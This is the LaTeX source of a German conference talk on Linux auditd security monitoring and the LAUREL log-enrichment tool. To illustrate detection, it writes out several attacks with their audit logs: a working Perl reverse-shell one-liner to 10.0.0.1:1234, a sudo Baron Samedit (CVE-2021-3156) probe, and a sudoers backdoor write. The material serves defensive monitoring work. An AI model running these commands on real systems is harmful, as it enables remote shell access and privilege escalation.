\documentclass[xcolor={dvipsnames},aspectratio=169]{beamer}

\usepackage{verbatim}
\usepackage[utf8]{inputenc}
\usepackage[german]{babel}
%\usetheme{AnnArbor}
%\usetheme{Marburg}
%\usetheme{Montpellier}

\usetheme{Singapore}
\title{Linux Security Monitoring mit Audit Events:\\Schmerzen reduzieren}
\author{Hilko Bengen\\ ``hillu''\\\url{bengen@hilluzination.de}}
% \date{\today}
\date{20. Mai 2022}

\begin{document}

\begin{frame}
  \titlepage
\end{frame}
\section{Linux Audit \& \emph{auditd}}
\begin{frame}{Erkennung gezielter Angriffe auf Netzwerke}
  \begin{itemize}
  \item Rein netzwerkbasierte Ansätze sind schwierig geworden.
  \item Daher: Events direkt auf den ``endpoints'' erzeugen\dots
  \item \dots und zeitnah, zentral in einem SIEM nach Regelsätzen auswerten.
  \item \emph{syslog} ist dafür zu wenig!
  \end{itemize}
\end{frame}
\begin{frame}{Was ist Linux Audit?}
  \begin{itemize}
  \item Kernel protokolliert Aktionen
    \begin{itemize}
    \item auf Basis eines vom Administrator festgelegten Regelsatzes
    \item Syscalls, z.B. \emph{open(2)}, \emph{execve(2)}, \emph{socket(2)}\dots
    \item Dateisystem-Operationen\\\emph{``everything is a file''} ist von Vorteil!
    \end{itemize}
  \item Dedizierter User-Space-Daemon \emph{auditd(8)}
    \begin{itemize}
    \item liest die Events\dots
    \item \dots führt ggf. einfache Übersetzung durch\dots\\
      {\footnotesize{}\texttt{log\_format=ENRICHED}: Syscalls, UID+GID, SOCKADDR, etc.}
    \item \dots schreibt ein Logfile und rotiert es
    \item \dots reicht die Events ggf. an Plugins zur weiteren Verarbeitung weiter
    \end{itemize}
  \item User-Space-Programme können das Audit-System für eigenes Logging mitverwenden.\\
    z.B. \emph{sudo}, \emph{login}, \emph{useradd}
  \end{itemize}
\end{frame}
\begin{frame}{Linux Audit: ``The Good''}
  \begin{itemize}
    \item Etabliert: Auf jedem Linux-System seit 15 Jahren verfügbar.
    \item Kernel als Informationsquelle
    \item Informationsgehalt grob vergleichbar mit Sysmon/Windows
    \item Nachvollziehbare Regelsätze, gut verstandenes System\\
      Für Anregungen:
        \begin{itemize}
        \item \emph{Center for Internet Security}: Linux-Benchmarks
        \item Florian Roth: \url{https://github.com/Neo23x0/auditd}
        \item \url{https://github.com/bfuzzy/auditd-attack}
        \end{itemize}
    \item Gute Unterstützung durch lokale Analyse- und Reporting-Werkzeuge\\
      \emph{aureport(8)}, \emph{ausearch(8)}, \emph{autrace(8)}
  \end{itemize}
\end{frame}
\begin{frame}{Linux Audit: ``The Bad \& The Ugly''}
  \begin{itemize}
  \item Textbasiertes, etwas ,,irreguläres'' Key-Value-Format\\
    {\footnotesize{}Teil der Kernel-User-Schnittstelle. Nicht mehr zu ändern.}
  \item Einfache Kodierung von Binärdaten--für Maschinen\\
    {\footnotesize{}Schlecht \texttt{grep/sed/awk}-bar. Für Menschen unlesbar.}
  \item Zeilenweise Ausgabe--zusammenfassbar über Event-ID\\
    {\footnotesize{}Aber Suchmaschinen sind nicht gut in JOIN-Operationen}
  \item Datenmenge
  \item Reporting-Werkzeuge müssen lokal laufen, sind nicht auf
    kontinuierlichen Betrieb ausgelegt\\
    {\footnotesize{}Für zentrales Security-Monitoring nicht geeignet}
  \end{itemize}
\end{frame}

\begin{frame}[fragile]{Beispiel: Sensitive Konfigurationsdateien}
  Wir wollen Manipulationen an der \emph{sudo(8)}-Konfiguration erkennen.\\
  {\tiny\vspace{2ex}{}CIS Dist-Independent Linux: 4.1.15: \emph{Ensure changes to system administration scope (sudoers) is collected}}
{\small
\begin{semiverbatim}
-w /etc/sudoers -p wa -k {\color{violet}scope}
-w /etc/sudoers.d/ -p wa -k {\color{violet}scope}
\end{semiverbatim}
}
Zu detektierende Aktion:
{\small
\begin{semiverbatim}
# {\color{orange}tee} {\color{red}/etc/sudoers.d/bäckdöör}
\end{semiverbatim}
}
\emph{auditd(8)}-Log:
\tiny
\begin{semiverbatim}
type=SYSCALL msg=audit(1629909850.538:31668): arch={\color{blue}c000003e} syscall={\color{blue}257} success=yes exit=3 a0={\color{blue}ffffff9c} a1={\color{blue}7ffdd583d894} a2={\color{blue}241}
  a3={\color{blue}1b6} items=2 ppid={\color{PineGreen}2134241} pid={\color{PineGreen}2134242} auid={\color{blue}1000} uid=0 gid=0 euid=0 suid=0 fsuid=0 egid=0 sgid=0 fsgid=0 tty=pts15 ses=3
  comm="{}{\color{orange}tee}" exe="{}/usr/bin/{\color{orange}tee}" subj==unconfined key="{}{\color{violet}scope}"
type=CWD msg=audit(1629909850.538:31668): cwd="/tmp"
type=PATH msg=audit(1629909850.538:31668): item=0 name="{}{\color{red}/etc/sudoers.d/}" inode=530807 dev={\color{blue}fd:01} mode={\color{blue}040755} ouid=0 ogid=0 
  rdev={\color{blue}00:00} nametype=PARENT cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0
type=PATH msg=audit(1629909850.538:31668): item=1 name={\color{red}2F6574632F7375646F6572732E642F62C3A4636B64C3B6C3B672} inode=649737
  dev={\color{blue}fd:01} mode={\color{blue}0100644} ouid=0 ogid=0 rdev={\color{blue}00:00} nametype=CREATE cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0
type=PROCTITLE msg=audit(1629909850.538:31668): proctitle={\color{orange}746565}00{\color{red}2F6574632F7375646F6572732E642F62C3A4636B64C3B6C3B672}
\end{semiverbatim}
\end{frame}

\begin{frame}[fragile]{Beispiel: Reverse Shell (Perl-Einzeiler)}
\begin{semiverbatim}
\tiny
{\color{orange}perl -e} 'use Socket;\$i="{}{\color{red}10.0.0.1}"{};\$p={\color{red}1234};socket(S,PF_INET,SOCK_STREAM,getprotobyname("{}tcp"));if(connect(S,sockaddr_in(\$p,
         {\color{blue}inet_at}on(\$i))))\{open(STDIN,"{}>\&S");open(STDOUT,"{}>\&S");open(STDERR,"{}>\&S");exec("{}{\color{red}/bin/sh -i}");\};'
\end{semiverbatim}  

\emph{auditd(8)}-Log:
\tiny
\begin{semiverbatim}
type=SYSCALL msg=audit(1626611363.720:348501): arch=c000003e syscall=59 success=yes exit=0 a0=55c094deb5c0 a1=55c094dea770 
  a2=55c094dbf1b0 a3=fffffffffffff286 items=3 ppid=722076 pid=724395 auid=1000 uid=0 gid=0 euid=0 suid=0 fsuid=0 egid=0
  sgid=0 fsgid=0 tty=pts3 ses=3 comm="{}perl" exe="{}/usr/bin/perl" subj==unconfined key=(null)
type=EXECVE msg=audit(1626611363.720:348501): argc=3 a0="{}{\color{orange}perl}" a1="{}{\color{orange}-e}" a2=75736520536F636B65743B24693D22{\color{red}31302E302E302E31}
  223B24703D{\color{red}31323334}3B736F636B657428532C50465F494E45542C534F434B5F53545245414D2C67657470726F746F62796E616D65282274637022
  29293B696628636F6E6E65637428532C736F636B616464725F696E2824702C696E65745F61746F6E282469292929297B6F70656E28535444494E2C
  223E265322293B6F70656E285354444F55542C223E265322293B6F70656E285354444552522C223E265322293B657865632822{\color{red}2F62696E2F736820
  2D69}22293B7D3B
type=CWD msg=audit(1626611363.720:348501): cwd="{}/root"
type=PATH msg=audit(1626611363.720:348501): item=0 name="{}/usr/bin/perl" inode=401923 dev=fd:01 mode=0100755 ouid=0 ogid=0 
  rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0
type=PATH msg=audit(1626611363.720:348501): item=1 name="{}/usr/bin/perl" inode=401923 dev=fd:01 mode=0100755 ouid=0 ogid=0 
  rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0
type=PATH msg=audit(1626611363.720:348501): item=2 name="{}/lib64/ld-linux-x86-64.so.2" inode=404797 dev=fd:01 mode=0100755 
  ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0
type=PROCTITLE msg=audit(1626611363.720:348501): proctitle={\color{orange}7065726C}00{\color{orange}2D65}0075736520536F636B65743B24693D22{\color{red}31302E302E302E3
  1}223B24703D{\color{red}31323334}3B736F636B657428532C50465F494E45542C534F434B5F53545245414D2C67657470726F746F62796E616D6528227463702
  229293B696628636F6E6E65637428532C736F636B616464725F696E2824702C{\color{blue}696E65745F6174}

\end{semiverbatim}
\end{frame}

\begin{frame}[fragile]{Beispiel: sudo-Exploit}
Probing der Schwachstelle CVE-2021-3156 (Baron Samedit)
{\tiny
\begin{semiverbatim}
$ {\color{red}sudoedit} {\color{orange}-s} '{\color{orange}\textbackslash}' `perl -e 'print "{}A" x {\color{blue}65536}'` 
malloc(): corrupted top size 
Aborted (core dumped) 
\end{semiverbatim}
}
\emph{auditd(8)}-Log:
\tiny
\begin{semiverbatim}
type=EXECVE msg=audit(1612173800.583:2176990): argc=4 a0="{}{\color{red}sudoedit}" a1="{}{\color{orange}-s}" a2="{}{\color{orange}\textbackslash}" a3\_len={\color{blue}131072}
   a3{\color{purple}[0]}=41414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414\dots
type=EXECVE msg=audit(1612173800.583:2176990): a3{\color{purple}[1]}=414141414141414141414141414141414141414141414141414141414141414141414141414\dots
type=EXECVE msg=audit(1612173800.583:2176990): a3{\color{purple}[2]}=414141414141414141414141414141414141414141414141414141414141414141414141414\dots
\vdots
type=EXECVE msg=audit(1612173800.583:2176990): a3{\color{purple}[15]}=41414141414141414141414141414141414141414141414141414141414141414141414141\dots
type=EXECVE msg=audit(1612173800.583:2176990): a3{\color{purple}[16]}=41414141414141414141414141414141414141414141414141414141414141414141414141\dots
type=EXECVE msg=audit(1612173800.583:2176990): a3{\color{purple}[17]}=41414141414141414141414141414141414141414141414141414141414141414141414141\dots
\end{semiverbatim}
\end{frame}

\section{Verbesserung de status quo}

\begin{frame}{Alternativen}
  \begin{itemize}
  \item Ersatz für \emph{auditd(8)}?
    \begin{description}
    \item[auditbeat] (Elastic) geht in die richtige Richtung.
      Aber: Gigantische Logs, mittelmäßige Performance.
    \item[\texttt{go-audit}] (Slack Technologies) JSON-Kodierung ohne Aufbereitung
    \end{description}
  \item \emph{Audit Dispatcher} Plugin?\\
    {\small\textit audisp-simple, audisp-simplify, audisp-json, audisp-cef \dots}\\
    Skriptsprachen oder C: Security? Wartbarkeit? Performance?
  \item Etwas gänzlich anderes?
    \begin{description}
    \item[\emph{OSquery}] kann nicht mit \emph{auditd(8)} koexistieren, bricht unter Last zusammen
    \item[\emph{Sysmon/Linux}] (Microsoft) benötigt eBPF, XML-Logs,
      Informationsverlust gegenüber \emph{auditd}, schlechte
      Performance 
   \end{description}
  \end{itemize}
\end{frame}

\begin{frame}{\textit{``If you want something done right\dots''}}
  \begin{itemize}
  \item \emph{Audit Dispatcher}-Schnittstelle verwenden
  \item Parsen, Zerlegen der Zeilen
  \item Zusammenfassen nach Event-ID
  \item Aufbereiten von hex-kodierten Strings
  \item Aufbereiten von \texttt{EXECVE}-Kommandozeilen als Liste\\
    {\small{}\texttt{"{}ARGV"{}:[\dots{}]} statt \texttt{a1, a2, a3[1], a3[2], \dots}}
  \item Ausgabe: JSONlines
  \end{itemize}
\end{frame}

\begin{frame}{Prototypen}
  Go
  \begin{itemize}
  \item Parser: \emph{Ragel State Machine Compiler}
  \item Garbage Collector und langsamer JSON-Encoder führen zu schlechter Performance
  \item Optimierter Code nicht mehr wartbar
  \end{itemize}
  \vspace{1ex}
  \hrule
  \vspace{1ex}
    Rust
  \begin{itemize}
  \item Parser: \texttt{peg}, ,,Grammatik'' ähnlich wie in \emph{Ragel} beschreibbar
  \item Performance auf Anhieb deutlich besser
  \item Fehlender GC und auf Code-Generierung basierender JSON-Encoder (\texttt{serde}, \texttt{serde\_json}) hilfreich
  \end{itemize}
  \vspace{1ex}
  \hrule
  \vspace{1ex}
  Beide nicht veröffentlicht; Basis weiterer Entwicklung.
\end{frame}

\section{Ergebnis}

\begin{frame}
  {\centering
    
\includegraphics[height=10ex]{images/laurel.png}\\
    \small \vspace{-1ex} \emph{Linux Audit -- Usable, Robust, Easy Logging}
  }
  \begin{itemize}
  \item Parsen, Zusammenfassen, Kodieren nach JSON
  \item Process Tracking: Anreichern mit Informationen aus \texttt{/proc}
  \item Logging ausgewählter Umgebungsvariablen
  \item \emph{Least-Privilege}-Prinzip: läuft nach Setup-Phase als unprivilegierter User
  \item Brauchbare Permissions auf Logdateien
  \item Klare Kodierung von Zahlenwerten (dezimal, oktal, hexadezimal)
  \item \url{https://github.com/threathunters-io/laurel}
  \item Lizenz: GPL 3.0
  \end{itemize}
\end{frame}

\begin{frame}[fragile]{So kann's aussehen}
\tiny
\begin{semiverbatim}
{\color{orange}perl -e} 'use Socket;\$i="{}{\color{red}10.0.0.1}"{};\$p={\color{red}1234};socket(S,PF_INET,SOCK_STREAM,getprotobyname("{}tcp"));
         if(connect(S,sockaddr_in(\$p,{\color{blue}inet_at}on(\$i))))\{open(STDIN,"{}>\&S");open(STDOUT,"{}>\&S");
         open(STDERR,"{}>\&S");exec("{}{\color{red}/bin/sh -i}");\};'
\end{semiverbatim}  
\vspace{-3ex}
\hrulefill
\vspace{-2ex}
\begin{semiverbatim}
\{"{}ID"{}:"{}1626611363.720:348501"{},
 "{}SYSCALL"{}:\{"{}arch"{}:"{}0xc000003e"{},"{}syscall"{}:59,"{}success"{}:"{}yes"{},"{}exit"{}:0,"{}items"{}:3,"{}ppid"{}:722076,
    "{}pid"{}:724395,"{}auid"{}:1000,"{}uid"{}:0,"{}gid"{}:0,"{}euid"{}:0,"{}suid"{}:0,"{}fsuid"{}:0,"{}egid"{}:0,"{}sgid"{}:0,"{}fsgid"{}:0,
    "{}tty"{}:"{}pts3"{},"{}ses"{}:3,"{}comm"{}:"{}perl"{},"{}exe"{}:"{}/usr/bin/perl"{},"{}subj"{}:"{}=unconfined"{},"{}key"{}:null,"{}ARGV"{}:[
       "{}0x55c094deb5c0"{},"{}0x55c094dea770"{},"{}0x55c094dbf1b0"{},"{}0xfffffffffffff286"{}]\},
 "{}EXECVE"{}:\{"{}argc"{}:3,"{}ARGV"{}:[
    "{}{\color{orange}perl}"{},"{}{\color{orange}-e}"{},
    "{}use Socket;\$i=\textbackslash"{}{\color{red}10.0.0.1}\textbackslash"{};\$p={\color{red}1234};socket(S,PF_INET,SOCK_STREAM,getprotobyname(\textbackslash"{}tcp\textbackslash"{}));if(connect(S,sockaddr_in(\$p,
     {\color{blue}inet_at}on(\$i))))\{open(STDIN,\textbackslash"{}>\&S\textbackslash"{});open(STDOUT,\textbackslash"{}>\&S\textbackslash"{});open(STDERR,\textbackslash"{}>\&S\textbackslash"{});exec(\textbackslash"{}{\color{red}/bin/sh -i}\textbackslash"{});\};"{}]\},
 "{}CWD"{}:\{"{}cwd"{}:"{}/root"{}\},
 "{}PATH"{}:[
    \{"{}item"{}:0,"{}name"{}:"{}/usr/bin/perl"{},"{}inode"{}:401923,"{}dev"{}:"{}fd:01"{},"{}mode"{}:"{}0o100755"{},"{}ouid"{}:0,"{}ogid"{}:0,"{}rdev"{}:"{}00:00"{},
     "{}nametype"{}:"{}NORMAL"{},"{}cap_fp"{}:"{}0x0"{},"{}cap_fi"{}:"{}0x0"{},"{}cap_fe"{}:0,"{}cap_fver"{}:"{}0x0"{},"{}cap_frootid"{}:"{}0"{}\},
    \{"{}item"{}:1,"{}name"{}:"{}/usr/bin/perl"{},"{}inode"{}:401923,"{}dev"{}:"{}fd:01"{},"{}mode"{}:"{}0o100755"{},"{}ouid"{}:0,"{}ogid"{}:0,"{}rdev"{}:"{}00:00"{},
     "{}nametype"{}:"{}NORMAL"{},"{}cap_fp"{}:"{}0x0"{},"{}cap_fi"{}:"{}0x0"{},"{}cap_fe"{}:0,"{}cap_fver"{}:"{}0x0"{},"{}cap_frootid"{}:"{}0"{}\},
    \{"{}item"{}:2,"{}name"{}:"{}/lib64/ld-linux-x86-64.so.2"{},"{}inode"{}:404797,"{}dev"{}:"{}fd:01"{},"{}mode"{}:"{}0o100755"{},"{}ouid"{}:0,"{}ogid"{}:0,"{}rdev"{}:"{}00:00"{},
     "{}nametype"{}:"{}NORMAL"{},"{}cap_fp"{}:"{}0x0"{},"{}cap_fi"{}:"{}0x0"{},"{}cap_fe"{}:0,"{}cap_fver"{}:"{}0x0"{},"{}cap_frootid"{}:"{}0"{}\}],
 "{}PROCTITLE"{}:\{"{}ARGV"{}:["{}{\color{orange}perl}"{},"{}{\color{orange}-e}"{},
   "{}use Socket;\$i=\textbackslash"{}{\color{red}10.0.0.1}\textbackslash"{};\$p={\color{red}1234};socket(S,PF_INET,SOCK_STREAM,getprotobyname(\textbackslash"{}tcp\textbackslash"{}));if(connect(S,sockaddr_in(\$p,{\color{blue}inet_at}"{}]\},
 "{}PARENT_INFO"{}:{"{}ARGV"{}:["{}bash"{}],"{}launch_time"{}:1626611323.973,"{}ppid"{}:721539}\}
\end{semiverbatim}

\end{frame}

\begin{frame}[fragile]{Performance}
  % GNUPLOT: LaTeX picture with Postscript
\begingroup
  \makeatletter
  \providecommand\color[2][]{%
    \GenericError{(gnuplot) \space\space\space\@spaces}{%
      Package color not loaded in conjunction with
      terminal option `colourtext'%
    }{See the gnuplot documentation for explanation.%
    }{Either use 'blacktext' in gnuplot or load the package
      color.sty in LaTeX.}%
    \renewcommand\color[2][]{}%
  }%
  \providecommand\includegraphics[2][]{%
    \GenericError{(gnuplot) \space\space\space\@spaces}{%
      Package graphicx or graphics not loaded%
    }{See the gnuplot documentation for explanation.%
    }{The gnuplot epslatex terminal needs graphicx.sty or graphics.sty.}%
    \renewcommand\includegraphics[2][]{}%
  }%
  \providecommand\rotatebox[2]{#2}%
  \@ifundefined{ifGPcolor}{%
    \newif\ifGPcolor
    \GPcolortrue
  }{}%
  \@ifundefined{ifGPblacktext}{%
    \newif\ifGPblacktext
    \GPblacktextfalse
  }{}%
  % define a \g@addto@macro without @ in the name:
  \let\gplgaddtomacro\g@addto@macro
  % define empty templates for all commands taking text:
  \gdef\gplbacktext{}%
  \gdef\gplfronttext{}%
  \makeatother
  \ifGPblacktext
    % no textcolor at all
    \def\colorrgb#1{}%
    \def\colorgray#1{}%
  \else
    % gray or color?
    \ifGPcolor
      \def\colorrgb#1{\color[rgb]{#1}}%
      \def\colorgray#1{\color[gray]{#1}}%
      \expandafter\def\csname LTw\endcsname{\color{white}}%
      \expandafter\def\csname LTb\endcsname{\color{black}}%
      \expandafter\def\csname LTa\endcsname{\color{black}}%
      \expandafter\def\csname LT0\endcsname{\color[rgb]{1,0,0}}%
      \expandafter\def\csname LT1\endcsname{\color[rgb]{0,1,0}}%
      \expandafter\def\csname LT2\endcsname{\color[rgb]{0,0,1}}%
      \expandafter\def\csname LT3\endcsname{\color[rgb]{1,0,1}}%
      \expandafter\def\csname LT4\endcsname{\color[rgb]{0,1,1}}%
      \expandafter\def\csname LT5\endcsname{\color[rgb]{1,1,0}}%
      \expandafter\def\csname LT6\endcsname{\color[rgb]{0,0,0}}%
      \expandafter\def\csname LT7\endcsname{\color[rgb]{1,0.3,0}}%
      \expandafter\def\csname LT8\endcsname{\color[rgb]{0.5,0.5,0.5}}%
    \else
      % gray
      \def\colorrgb#1{\color{black}}%
      \def\colorgray#1{\color[gray]{#1}}%
      \expandafter\def\csname LTw\endcsname{\color{white}}%
      \expandafter\def\csname LTb\endcsname{\color{black}}%
      \expandafter\def\csname LTa\endcsname{\color{black}}%
      \expandafter\def\csname LT0\endcsname{\color{black}}%
      \expandafter\def\csname LT1\endcsname{\color{black}}%
      \expandafter\def\csname LT2\endcsname{\color{black}}%
      \expandafter\def\csname LT3\endcsname{\color{black}}%
      \expandafter\def\csname LT4\endcsname{\color{black}}%
      \expandafter\def\csname LT5\endcsname{\color{black}}%
      \expandafter\def\csname LT6\endcsname{\color{black}}%
      \expandafter\def\csname LT7\endcsname{\color{black}}%
      \expandafter\def\csname LT8\endcsname{\color{black}}%
    \fi
  \fi
    \setlength{\unitlength}{0.0500bp}%
    \ifx\gptboxheight\undefined%
      \newlength{\gptboxheight}%
      \newlength{\gptboxwidth}%
      \newsavebox{\gptboxtext}%
    \fi%
    \setlength{\fboxrule}{0.5pt}%
    \setlength{\fboxsep}{1pt}%
    \definecolor{tbcol}{rgb}{1,1,1}%
\begin{picture}(7370.00,3968.00)%
    \gplgaddtomacro\gplbacktext{%
      \csname LTb\endcsname%%
      \put(682,704){\makebox(0,0)[r]{\strut{}$0$}}%
      \put(682,1139){\makebox(0,0)[r]{\strut{}$10$}}%
      \put(682,1573){\makebox(0,0)[r]{\strut{}$20$}}%
      \put(682,2008){\makebox(0,0)[r]{\strut{}$30$}}%
      \put(682,2443){\makebox(0,0)[r]{\strut{}$40$}}%
      \put(682,2878){\makebox(0,0)[r]{\strut{}$50$}}%
      \put(682,3312){\makebox(0,0)[r]{\strut{}$60$}}%
      \put(682,3747){\makebox(0,0)[r]{\strut{}$70$}}%
      \put(814,484){\makebox(0,0){\strut{}$0$}}%
      \put(1694,484){\makebox(0,0){\strut{}$500$}}%
      \put(2574,484){\makebox(0,0){\strut{}$1000$}}%
      \put(3454,484){\makebox(0,0){\strut{}$1500$}}%
      \put(4333,484){\makebox(0,0){\strut{}$2000$}}%
      \put(5213,484){\makebox(0,0){\strut{}$2500$}}%
      \put(6093,484){\makebox(0,0){\strut{}$3000$}}%
      \put(6973,484){\makebox(0,0){\strut{}$3500$}}%
    }%
    \gplgaddtomacro\gplfronttext{%
      \csname LTb\endcsname%%
      \put(209,2225){\rotatebox{-270}{\makebox(0,0){\strut{}\% cpu}}}%
      \put(3893,154){\makebox(0,0){\strut{}exec/s (AWS EC2, t2.small)}}%
      \csname LTb\endcsname%%
      \put(5986,3574){\makebox(0,0)[r]{\strut{}\footnotesize\emph{laurel} 0.1.3}}%
      \csname LTb\endcsname%%
      \put(5986,3354){\makebox(0,0)[r]{\strut{}\footnotesize\emph{auditd} 2.8.1 (RAW)}}%
      \csname LTb\endcsname%%
      \put(5986,3134){\makebox(0,0)[r]{\strut{}\footnotesize\emph{auditd} 2.8.1 (ENRICHED)}}%
      \csname LTb\endcsname%%
      \put(5986,2914){\makebox(0,0)[r]{\strut{}\footnotesize\emph{go-audit} 1.0.0}}%
      \csname LTb\endcsname%%
      \put(5986,2694){\makebox(0,0)[r]{\strut{}\footnotesize\emph{auditbeat} 7.12.0}}%
      \csname LTb\endcsname%%
      \put(5986,2474){\makebox(0,0)[r]{\strut{}\footnotesize\emph{Sysmon/Linux} 1.0.0}}%
      \csname LTb\endcsname%%
      \put(5986,2254){\makebox(0,0)[r]{\strut{}\footnotesize\emph{Sysmon/Linux} post-1.0}}%
    }%
    \gplbacktext
    \put(0,0){
\includegraphics[width={368.50bp},height={198.40bp}]{images/slides}}%
    \gplfronttext
  \end{picture}%
\endgroup

\end{frame}

\begin{frame}{Nachtrag / Erkenntnisse aus der Entwicklung}
  Zusätzliche Features
  \begin{itemize}
  \item Eigene Übersetzung von Syscalls, UIDs, GIDs, SOCKADDR-Strukturen, etc.
  \item Bessere Performance dank Parser-Kombinator-Library \texttt{nom}
  \item \texttt{PARENT\_INFO}
  \item Labels zum Markieren aller Aktionen eines Prozesses und/oder seiner Kindprozesse
  \item Labels auf Basis des Executable (Regexp-Match)
  \end{itemize}
  \hrulefill{}
  \vspace{1ex}
  \begin{itemize}
  \item \emph{Linux-Audit}-Textformat erfordert mehr Sonderbehandlung im Parser als erwartet
  \item Unterstützung von \emph{SELinux}-Policies ist fehlerträchtig
  \end{itemize}
\end{frame}

\section{Ausblick}

\begin{frame}{Ausblick}
  \begin{itemize}
  \item Prozess- und Session-GUID ähnlich Sysmon
  \item Filtern von Events zur Reduktion der Datenmengen im SIEM.\\
    {\small{}Labels, LuaJIT?}
  \item Übersetzung von mehr numerischen Werten\\
    {\small{}Capabilities, \emph{open, fcntl, socket}-Flags\dots}
  \item Anreicherung von Events mit Container-Runtime-Kontext
  \item Aufwändigere Anreicherung, z.B. Datei-Hashes
  \item Alternative Backends: TCP, HTTPS, Redis\dots
  \item Bereitstellung von RPM-, DEB-Paketen
  \end{itemize}
\end{frame}

\begin{frame}{Fazit}
  \begin{itemize}
  \item Das \emph{Linux-Audit}-Subsystem bietet eine inhaltlich
    brauchbare Basis für Security-Event-Monitoring
  \item \emph{LAUREL} behebt die größte Schwachstelle, das Ausgabeformat.
  \item Basis für weitere Entwicklungen für Anreicherungen
  \item Neue Features führen zu neuen Detection-Use-Cases führen zu neuen Ideen\dots
  \end{itemize}
\end{frame}

\appendix

\section{Bonusmaterial}

\begin{frame}[fragile] {Splunk SPL-Beispiel (\emph{auditd})}
\tiny
\begin{semiverbatim}
search index=linux\_auditd
  type=SYSCALL syscall\_name=execve
  (uid=30 OR uid=33)
  exe=/bin/bash (comm=/bin/sh OR comm=sh)
  AND NOT host=excluded-host
| table \_time host uid pid ppid exe comm event\_id 
| map maxsearches=100
  search="search index=linux\_auditd 
            type=EXECVE host=\$host\$ event\_id=\$event\_id\$ |eval uid=\$uid\$ |eval pid=\$pid\$ |eval ppid=\$ppid\$ 
            AND NOT a2=2F6170702F63656E736F7265642F6C69622F65787465726E616C732F70726F642F77616C2F7065726C2F6C696E75782F62696E2F7065
                       726C202D4520736179283129203E202F6170702F63656E736F7265642F6367692D62696E2F70726F642F77616C2F2E2E2F2E2E2F2E2E
                       2F746D702F67616761
    | foreach a1 a2 a3 a4 a5 a6 a7 a8 a9 a1* a2* a3* a4* a5* a6* a7* a8* a9* 
        [ eval Parameter=if(isnull(Parameter),\"{}\"{},toString(Parameter))+\"{} \"{}+if(isnull('<<FIELD>>'),\"{}\"{},toString('<<FIELD>>')) ]
    | rename a0 AS Command" 
| `ctime(\_time)` 
| table \_time host uid pid Command Parameter ppid event\_id 
\end{semiverbatim}
\end{frame}
\begin{frame}[fragile] {Splunk SPL-Beispiel (\emph{LAUREL})}
\small
\begin{semiverbatim}
search index=linux\_laurel
  SYSCALL.SYSCALL=execve 
  (SYSCALL.uid=30 OR SYSCALL.uid=33)
  SYSCALL.exe=/bin/bash (SYSCALL.comm=/bin/sh OR SYSCALL.comm=sh)
  AND NOT host=excluded-host
| rename EXECVE.ARGV as cmd, SYSCALL.uid as uid,
         SYSCALL.pid as pid, SYSCALL.ppid as ppid,
         PARENT\_INFO.ARGV as parent\_cmd, ID as event\_id
| search cmd != "{}/app/censored/lib/externals/prod/wal/perl/linux/bin/perl"{}
| table \_time host cmd uid pid ppid parent\_cmd event\_id 
\end{semiverbatim}
\end{frame}
\end{document}
